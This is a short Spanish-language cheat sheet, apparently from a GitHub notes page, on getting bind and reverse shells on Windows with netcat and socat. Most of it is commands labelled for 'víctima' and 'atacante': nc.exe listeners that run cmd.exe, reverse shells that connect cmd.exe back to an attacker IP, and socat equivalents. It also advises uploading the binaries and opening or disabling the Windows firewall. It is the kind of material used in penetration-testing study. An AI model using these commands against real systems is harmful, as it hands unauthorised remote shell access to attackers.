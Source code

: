 **Uso de Socat y Netcat para Reverse y Bind Shells en Windows**

---

### 1. Consideraciones previas

* Windows no incluye nativamente `socat` ni `netcat`.
* Deben subirse versiones compatibles (`nc.exe`, `socat.exe`) o usar binarios precompilados.
* Permisos administrativos facilitan ejecución y apertura de puertos.

---

### 2. Netcat en Windows

#### Bind Shell (Windows escucha, atacante se conecta)

**Windows (víctima):**

```cmd
nc.exe -lvnp <PORT> -e cmd.exe
```

* `-l` listen, `-v` verbose, `-n` no DNS, `-p` puerto, `-e` ejecuta cmd.exe.
* Escucha conexiones entrantes y lanza cmd.

**Atacante:**

```bash
nc <Victim-IP> <PORT>
```

---

#### Reverse Shell (Windows conecta a atacante)

**Atacante:**

```bash
nc -lvnp <PORT>
```

**Windows (víctima):**

```cmd
nc.exe <Atacker-IP> <PORT> -e cmd.exe
```

---

### 3. Socat en Windows

* Socat en Windows es menos común, pero se puede usar con Cygwin o compilaciones específicas.

#### Bind Shell (Windows escucha):

```cmd
socat.exe TCP-LISTEN:<PORT>,reuseaddr,fork EXEC:cmd.exe
```

#### Reverse Shell (Windows conecta):

```cmd
socat.exe EXEC:cmd.exe TCP:<Atacker-IP>:<PORT>
```

---

### 4. Ejecución y requisitos

* Subir binarios `nc.exe` o `socat.exe` a Windows.
* Ejecutar en CMD o PowerShell con privilegios adecuados.
* Configurar listener en atacante (`nc -lvnp <PORT>` o `socat TCP-LISTEN:<PORT> -`).
* Abrir puertos en firewall Windows o deshabilitar temporalmente.
* Validar conectividad entre máquinas.

---

### 5. Limitaciones y alternativas

* Versiones de netcat sin opción `-e` no funcionan para shells directas.
* Socat puede requerir entorno POSIX emulado.
* PowerShell es alternativa para reverse shell más robusta y nativa.

---